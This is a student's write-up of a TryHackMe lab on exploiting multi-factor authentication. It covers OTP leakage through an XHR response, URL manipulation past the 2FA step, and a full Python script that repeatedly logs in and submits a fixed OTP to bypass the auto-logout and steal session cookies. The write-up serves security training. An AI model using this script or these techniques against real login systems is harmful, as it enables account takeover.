



Noemí Molero

# **Exploiting Multi-Factor Authentication**

[**Web Application Pentesting**](https://tryhackme.com/paths)

**Level:** 

## **Introduction**: 
In this section, we will dive into the common vulnerabilities associated with Multi-Factor Authentication (MFA) and explore how attackers can exploit these weaknesses. We'll cover issues like weak OTP generation, the risks of leaking 2FA tokens, and methods to bypass authentication through brute-forcing and insecure coding. Additionally, we will demonstrate practical exploitation techniques for OTP leakage and explore common security flaws that can be leveraged to bypass MFA protections. By understanding these vulnerabilities, we can take steps to strengthen MFA implementations and protect systems from unauthorized access.

NOEMÍ MOLERO

**INDEX**
#
[**Exploiting Multi-Factor Authentication**	1](#_toc189652363)

`     `[**Introduction**:	1](#_toc189652364)

[**Common vulnerabilities in MFA**	3](#_toc189652365)

[**Exploitation – Insecure Coding**	5](#_toc189652366)

[**Exploitation – Beating The Auto-Logout Feature**	6](#_toc189652367)

[**Conclusion**	10](#_toc189652368)

## **Common vulnerabilities in MFA**

- **Weak OTP Generation Algorithms**

  When de One Times password is too predictable, can make it easer to the attacker to guess it. It’s important to have a good algorithm.

- **Application Leaking the 2FA Token**

  It occurs when an application handles data insecurely, it can return the 2FA token in the HTTP response in the XHR (XMLHttpRequest)

- **Brute Forcing the OTP**

  The bad configuration can lead to brute-force attacks, like the option of trying unlimited guesses without any restriction

  - ` `Evilingx

Add **10.10.64.247** to your **/etc/hosts** file. 

Sudo nano /etc/hosts

**Practical OTP Leakage**

The OTP leakage in the XHR can happen because of a bad implementation of the 2FA mechanism or insecure coding. 

Some reasons:

- Server-Side Validation Return of Sensitive Data
- Lack of Proper Security Practices
- Debugging Information Left in Production

**Exploitation – OTP Leakage**

Log in 

We open the developer tools – network before logging in, and we can see a xhr request sent to the endpoint /token 

If we click in, we can see the token

We are in

## **Exploitation – Insecure Coding**

We need to authenticate the OTP to access to the dashboard, but me can try to manipulate the URL

## **Exploitation – Beating The Auto-Logout Feature**
When the user fails the 2FA it logs out automatically, and the apps generates a 4-digit pin code, usually, in the range of 0000 to 9999. Whitch is difficult to discover, but we can try to change it to a lower value. 

We can create a script named as exploit.py and run it:

import requests

\# Define the URLs for the login, 2FA process, and dashboard

login\_url = 'http://mfa.thm/labs/third/'

otp\_url = 'http://mfa.thm/labs/third/mfa'

dashboard\_url = 'http://mfa.thm/labs/third/dashboard'

\# Define login credentials

credentials = {

`    `'email': 'thm@mail.thm',

`    `'password': 'test123'

}

\# Define the headers to mimic a real browser

headers = {

`    `'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',

`    `'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8',

`    `'Accept-Language': 'en-US,en;q=0.5',

`    `'Accept-Encoding': 'gzip, deflate',

`    `'Content-Type': 'application/x-www-form-urlencoded',

`    `'Origin': 'http://mfa.thm',

`    `'Connection': 'close',

`    `'Referer': 'http://mfa.thm/labs/third/mfa',

`    `'Upgrade-Insecure-Requests': '1'

}

\# Function to check if the response contains the login page

def is\_login\_successful(response):

`    `return "User Verification" in response.text and response.status\_code == 200

\# Function to handle the login process

def login(session):

`    `response = session.post(login\_url, data=credentials, headers=headers)

`    `return response

\# Function to handle the 2FA process

def submit\_otp(session, otp):

`    `# Split the OTP into individual digits

`    `otp\_data = {

`        `'code-1': otp[0],

`        `'code-2': otp[1],

`        `'code-3': otp[2],

`        `'code-4': otp[3]

`    `}

`    `response = session.post(otp\_url, data=otp\_data, headers=headers, allow\_redirects=False)  # Disable auto redirects

`    `print(f"DEBUG: OTP submission response status code: {response.status\_code}")

`    `return response

\# Function to check if the response contains the login page

def is\_login\_page(response):

`    `return "Sign in to your account" in response.text or "Login" in response.text

\# Function to attempt login and submit the hardcoded OTP until success

def try\_until\_success():

`    `otp\_str = '1337'  # Hardcoded OTP

`    `while True:  # Keep trying until success

`        `session = requests.Session()  # Create a new session object for each attempt

`        `login\_response = login(session)  # Log in before each OTP attempt

`        `if is\_login\_successful(login\_response):

`            `print("Logged in successfully.")

`        `else:

`            `print("Failed to log in.")

`            `continue

`        `print(f"Trying OTP: {otp\_str}")

`        `response = submit\_otp(session, otp\_str)

`        `# Check if the response is the login page (unsuccessful OTP)

`        `if is\_login\_page(response):

`            `print(f"Unsuccessful OTP attempt, redirected to login page. OTP: {otp\_str}")

`            `continue  # Retry login and OTP submission

`        `# Check if the response is a redirect (status code 302)

`        `if response.status\_code == 302:

`            `location\_header = response.headers.get('Location', '')

`            `print(f"Session cookies: {session.cookies.get\_dict()}")

`            `# Check if it successfully bypassed 2FA and landed on the dashboard

`            `if location\_header == '/labs/third/dashboard':

`                `print(f"Successfully bypassed 2FA with OTP: {otp\_str}")

`                `return session.cookies.get\_dict()  # Return session cookies after successful bypass

`            `elif location\_header == '/labs/third/':

`                `print(f"Failed OTP attempt. Redirected to login. OTP: {otp\_str}")

`            `else:

`                `print(f"Unexpected redirect location: {location\_header}. OTP: {otp\_str}")

`        `else:

`            `print(f"Received status code {response.status\_code}. Retrying...")

\# Start the attack to try until success

try\_until\_success()

We now go to the browser and open cookies storage and change the value from PHPSESSSID to the one that we got.

And we got the flag

**Conclusion**

In this section, we've explored the core concepts of Multi-Factor Authentication (MFA) and Two-Factor Authentication (2FA), providing a clear understanding of how these security measures enhance protection against unauthorized access.

Key Takeaways:

Understanding MFA: MFA strengthens security by requiring multiple authentication factors, which greatly reduces the likelihood of unauthorized access.
Addressing vulnerabilities: Issues such as weak OTP generation methods and insufficient rate limiting can compromise security, emphasizing the importance of proper implementation.

Best practices: Ensuring secure OTP generation, enforcing rate limits, and educating users are vital to maintaining a robust and effective MFA system.

